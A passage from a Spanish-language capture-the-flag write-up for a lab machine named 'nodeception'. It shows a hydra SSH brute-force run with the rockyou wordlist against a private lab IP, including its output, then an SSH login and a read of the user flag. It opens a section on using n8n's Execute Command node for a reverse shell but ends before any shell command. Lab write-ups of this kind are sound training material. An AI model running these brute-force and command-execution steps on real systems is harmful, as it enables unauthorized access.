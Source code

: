 Resulta ser el archivo `/etc/passwd` de la máquina víctima, y al final vemos al **usuario thl**. Quizá le podamos aplicar fuerza bruta.

Vamos a intentarlo:
```bash
hydra -l 'thl' -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.120 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-20 14:56:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.100.120:22/
[22][ssh] host: 192.168.100.120   login: thl   password: *********
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 19 final worker threads did not complete until end.
[ERROR] 19 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-20 14:56:53
```
Excelente, tenemos la contraseña.

Probémosla:
```bash
ssh thl@192.168.100.120
thl@192.168.100.120's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-63-generic x86_64)
...
Last login: Fri Jul 18 13:04:48 2025
thl@nodeception:~$ whoami
thl
```
Estamos dentro.

Aquí mismo encontraremos la flag del usuario:
```bash
thl@nodeception:~$ ls
user.txt
thl@nodeception:~$ cat user.txt
...
```

<br>

<h2 id="WFmalicioso">Creando un WorkFlow para Ejecutar Comandos y Obtener una Reverse Shell</h2>

Dentro de la **plataforma n8n**, existe un nodo llamado **Execute Command** que nos permite ejecutar comandos dentro de la máquina host.

Vamos a crear un nuevo WorkFlow desde el dashboard, dale clic al botón **Create Workflow**:

<p align="center">
<img src="/assets/images/THL-writeup-nodeCeption/Captura21.png">
</p>
